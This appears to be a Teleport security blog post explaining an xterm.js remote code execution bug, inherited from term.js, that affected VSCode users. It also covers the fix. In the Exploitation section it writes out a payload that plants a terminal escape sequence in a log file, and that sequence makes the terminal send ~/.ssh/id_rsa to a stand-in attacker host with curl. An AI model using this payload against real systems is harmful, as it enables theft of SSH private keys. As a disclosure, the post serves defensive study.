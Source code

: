 ```yaml
---
title: Vulnerability in xterm.js
description: The recently discovered xterm.js vulnerability shows how bugs are hard to kill as technology evolves.
articleTitle: Underappreciated xterm bug resurfaces in xterm.js, exposing millions of VSCode users
date: "2019-01-21"
author: Alexey Kontsevoy, Russell Jones
tags:
  - ssh
  - teleport
  - security
layout: blogArticle
---
```



## Introduction

Recently [xterm.js](https://xtermjs.org/), the web based terminal emulator Teleport uses, disclosed and patched a remote code execution (RCE) vulnerability [that was found by Felix Wilhelm](https://twitter.com/_fel1x/status/1083085715565621250). As we were investigating the bug to learn about the scope and how it would affect Teleport users, we realized it's actually a decade old [xterm bug](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=510030) that has been re-implemented for the web terminals and remained unfixed for years. The bug was initially introduced in 2013 in term.js, the web terminal which xterm.js was forked from.

Perhaps one of the most popular products that uses xterm.js is Visual Studio Code which was [ranked #1](https://insights.stackoverflow.com/survey/2018/) editor in the 2018 Developers Survey. This means that [millions of developers](https://code.visualstudio.com/blogs/2017/11/16/connect) machines remain vulnerable if they are running vscode older than the Jan 8th 2019 release, version 1.30.2.

## Description

Terminals support more than just reading and writing of black and white text to the screen.
They also support special control characters (commands) which tell the terminal what to do with respect to content, cursor, colors, as well as control.

Here are a few examples:

| Description                     | Example                   |
| ------------------------------- | ------------------------- |
| Move the cursor up 3 lines.     | `echo -e '\x1b[3A'`       |
| Set green color.                | `echo -e '\x1b[0;31;44m'` |
| Request terminal scroll region. | `echo -e '\x1bP$qr\x1b'`  |

In the above examples, the special command escape sequences follow a similar format. They start with `ESC`, represented by `\x1b`, which indicates that a command follows. This is how a terminal distinguishes text from control codes. Then control characters like `[` and `P` indicate what command to run. After that follows the command's parameters.

Device control string (DCS) commands, which are represented by the third example, ask a terminal to send back information about itself, thus initiating a request-response message exchange. Programs like vim may use these commands to request specific information from terminals. Support for these commands varies among modern emulated terminals, from partial support to simply ignoring commands.

In the case of xterm.js, when it encountered a DCS request with a parameter that it did not support, it would send a DCS response saying that the request was invalid. Because xterm.js did not properly sanitize the content of the DCS responses, it was possible to craft a "DCS + q" request with a parameter value containing an arbitrary string which would be written to an output when xterm.js replied to a response as shown below. \

Request: \
` echo -e '\x1bP+q[MALICIOUS STRING]\x1b'` \

Response: \
` \x1bP0$r[MALICIOUS STRING]\x1b`

## Exploitation

For those thinking what an attack vector for this type of attack could be, imagine you are logging some kind of user controlled input to a log file.

```
printf '\x1bP+q\n cat ~/.ssh/id_rsa | curl -H "Content-Type: application/text" -X POST -d @- https://attacker.localhost  \n\x1b' > system.logs

```

If an attacker can coerce you to view that log file (perhaps making a support request)

```
$ cat system.logs
```

Then it could lead to a RCE where your ssh private keys stored in ~/.ssh/id_rsa will be sent to https://attacker.localhost by your terminal.

```
$ cat ~/.ssh/id_rsa | curl -H "Content-Type: application/text" -X POST -d @- https://attacker.localhost
```

## Fix

The fix for this issue is fairly simple, since DCS + q requests are not widely supported by native terminals. The xterm.js developers mitigated this issue by completely ignoring this type of request.

<EmailSubscribeViolet />

## Conclusion

As new software is written, old bugs frequently come back in different forms. In this case, Marco Ramilli found the [same exact bug](https://marcoramilli.com/2009/01/14/huge-xterm-vulnerability/) in the native xterm application in 2009.

While [bugs are to a certain extent inevitable](https://www.nsa.gov/Portals/70/images/resources/everyone/digital-media-center/publications/research-papers/the-inevitability-of-failure-paper.pdf), it's important to have robust processes around software so that it can be quickly updated and pushed to production environments. To that end, we have patched and fixed this issue in Teleport 3.1.3 so you can feel confident using its web terminal.
